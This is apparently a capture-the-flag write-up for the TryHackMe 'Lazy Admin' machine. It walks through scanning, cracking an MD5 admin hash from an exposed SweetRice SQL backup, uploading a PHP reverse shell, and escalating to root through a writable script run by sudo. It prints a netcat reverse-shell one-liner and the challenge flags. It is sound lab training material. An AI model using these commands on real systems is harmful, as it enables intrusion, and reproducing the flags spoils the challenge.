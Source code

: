 # Lazy Admin

```sh
export IP=10.10.13.147
```

## nmap

```sh
nmap -A -sC -sV -T4 -p- $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-01 16:24 WEST
Nmap scan report for 10.10.13.147
Host is up (0.091s latency).
Not shown: 65533 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Apache/2.4.18 (Port 80)

![Default page Apache](img/default_page_apache.png)

### dirb

```sh
gobuster -u http://$IP/ -w /usr/share/wordlists/dirb/big.txt
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.13.147/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/09/01 16:28:10 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/server-status (Status: 403)
=====================================================
2023/09/01 16:32:42 Finished
=====================================================
```

### Basic CMS SweetRice

![Content page](img/content.png)

```sh
gobuster -u http://$IP/content/ -w /usr/share/wordlists/dirb/big.txt
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.13.147/content/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/09/01 16:42:08 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/js (Status: 301)
=====================================================
2023/09/01 16:46:48 Finished
=====================================================
```

A quick search about CMS SweetRice let us discover some critical vulnerabilities to exploit.

Also is likely possible to search for the default password since the admin is lazy :)

However, I decided to do some research myself looking for new ways to get into this machine since searching for "Basic CMS SweetRice" led me to other write-ups from THM users.

In this sql file (at `/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`) we can find the following:

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

A closer look at this discovery lets us know that the admin username is `manager` and the admin password hash (MD5) is `42f749ade7f9e195bf475f37a44cafcb`.

```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

### John

Let's use John the Ripper to crack this hash:

```sh
echo "42f749ade7f9e195bf475f37a44cafcb" > hash.txt
john-the-ripper --format=Raw-MD5 hash.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/snap/john-the-ripper/current/run/password.lst
Enabling duplicate candidate password suppressor
Password123      (?)
1g 0:00:00:00 DONE 2/3 (2023-09-01 17:22) 1.428g/s 7680p/s 7680c/s 7680C/s morena..just4fun
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

And like so we can login in `/content/as` as admin:

![Admin panel](img/admin-page.png)

We can upload this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) made by pentestmonkey.

### PHP Reverse Shell

On the attacker machine:

```
nc -lvnp 4444
```

![Upload php reverse shell](img/upload-php-reverse-shell.png)

Finally, we click on the uploaded php file, and boom we have a reverse shell to the machine:

![Success reverse shell](img/success-reverse-shell.png)

From here we can escalate privileges from `www-data` to `root`:

### PrivEsc

```sh
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

This file isn't writeable but we can read it:

```sh
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```sh
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

We can write to this file allowing us to privEsc to root!

```sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Looks like the itguy was also reverse shelling in this machine :P

There's no need for us to do the same we can just do the following:

```sh
$ echo "/bin/sh" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
id
uid=0(root) gid=0(root) groups=0(root)
```

And just like so we've root privileges!

#### flags

<details>
  <summary>User flag</summary>

```sh
cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

</details>

<details>
  <summary>Root flag</summary>

```sh
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

</details>
